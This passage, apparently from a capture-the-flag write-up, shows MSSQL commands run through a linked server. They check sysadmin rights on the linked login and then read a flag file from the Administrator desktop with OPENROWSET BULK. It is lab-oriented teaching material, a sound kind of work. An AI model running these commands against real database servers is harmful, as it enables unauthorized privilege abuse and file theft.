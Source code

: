     # this shows WINSRV02\SQLEXPRESS is remote server (this server) - 1
    # and LOCAL.TEST.LINKED.SRV is linked server - 0

    # identify 'john' privileges on the linked server
    # by passing commands
    EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
    go
    # here we are using two single quotes, one is for escaping the other one as per syntax

    # from the output, we get user 'testadmin', who is sysadmin as shown by '1'

    # as we can remotely execute commands
    # we can read the flag from Administrator desktop

    # refer command for reading local files in MSSQL
    # again, using single quotes twice for escaping
    EXECUTE('select * FROM OPENROWSET(BULK N''C:/Users/Administrator/Desktop/flag.txt'', SINGLE_CLOB) As Contents') AT [LOCAL.TEST.LINKED.SRV]
    go
    ```
